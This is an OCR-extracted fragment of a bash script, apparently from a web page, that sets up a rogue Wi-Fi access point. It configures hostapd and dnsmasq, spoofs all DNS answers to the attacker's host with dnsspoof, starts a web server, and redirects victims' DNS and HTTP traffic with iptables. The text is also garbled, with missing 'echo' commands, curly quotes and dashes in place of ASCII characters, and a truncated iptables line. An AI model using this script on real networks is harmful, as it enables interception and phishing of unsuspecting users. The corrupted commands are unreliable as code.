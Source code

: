 bssid=$bssid” >> hostapd.conf
“channel=$channel” >> hostapd.conf
“hw_mode=g” >> hostapd.conf

hostapd ./hostapd

ifconfig $phy 10.0.0.1 netmask 255.255.255.0
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1

echo "# define DHCP pool" > dnsmasq.conf
echo "dhcp-range=10.0.0.80,10.0.0.254,6h" >> dnsmasq.conf
echo "" >> dnsmasq.conf
echo "# set phy as nameserver" >> dnsmasq.conf
echo "dhcp-option=6,10.0.0.1" >> dnsmasq.conf
echo "" >> dnsmasq.conf
echo "# set rogue AP as Gateway" >> dnsmasq.conf
echo "dhcp-option=3,10.0.0.1 #Gateway" >> dnsmasq.conf
echo "" >> dnsmasq.conf
echo "dhcp-authoritative" >> dnsmasq.conf
echo "log-queries" >> dnsmasq.conf

dnsmasq -C ./dnsmasq.conf &

echo ’10.0.0.1’ > dnsspoof.conf
dnsspoof –i $phy -f ./dnsspoof.conf

systemctl start apache2

echo ‘1’ > /proc/sys/net/ipv4/ip_forward

iptables --policy INPUT ACCEPT
iptables --policy FORWARD ACCEPT
iptables --policy OUTPUT ACCEPT
iptables --flush
iptables --table nat --flush
iptables --table nat --append POSTROUTING -o $upstream --jump MASQUERADE
iptables --append FORWARD -i $phy -o $upstream --jump ACCEPT
iptables --table nat --append PREROUTING --protocol udp --destination-port

53 --jump REDIRECT --to-port 53
iptables --table nat --append PREROUTING --protocol tcp --destination-port
80 --jump REDIRECT --to-port 80
iptables --table nat --append PREROUTING --protocol tcp --destination-port

read -p ‘Press enter to quit…’

# kill daemon processes
for i in `pgrep dnsmasq`; do kill $i; done
for i in `pgrep hostapd`; do kill $i; done
for i in `pgrep dnsspoof`; do kill $i; done
for i in `pgrep apache2`; do kill $i; done

# restore iptables
iptables --flush
iptables --table nat –flush

{% endhighlight %}
